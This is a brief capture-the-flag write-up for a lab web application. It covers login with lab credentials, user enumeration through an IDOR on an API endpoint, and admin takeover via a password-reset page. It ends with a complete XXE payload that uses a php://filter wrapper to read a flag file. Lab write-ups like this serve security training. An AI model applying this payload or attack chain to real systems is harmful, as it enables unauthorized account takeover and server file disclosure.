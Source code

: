 # Scenario:
Performing a web app pentest for sof comanpym and task y iwth testing the lastest of their social network web app.
Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

## 94.237.53.52:5948

##  Write up:

### Enumeration in caido
1. Log in the app with the creadentials:
- User htb-student
- Pass: Academy_student!

2. Login Requests in Caido:
- 301 redirect response following  a successful login.
- 200 ok resposne
- Api get

3. Potential IDOR:
We'll focus on the dir /api.php/user/74
![Automate](../Img/Web-attck-skill11.png)

![Automate](../Img/Web-attck-skill1.png)
Then we cam enumerate the users and find de admin user for login. We can chage the password in the dir /reset.php.
![Reset](../Img/Web-attck-skill3.png)
Now we can access to the admin user ---> PWD

4.Exploit with php filetering
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
<root>
  <name>&Test;</name>
  <details>test</details>
   <date></date>
</root>

```
![Flag](../Img/Web-attck-skill-flag.png)

![Flag](../Img/Web-attck-skill-flag-cy.png)

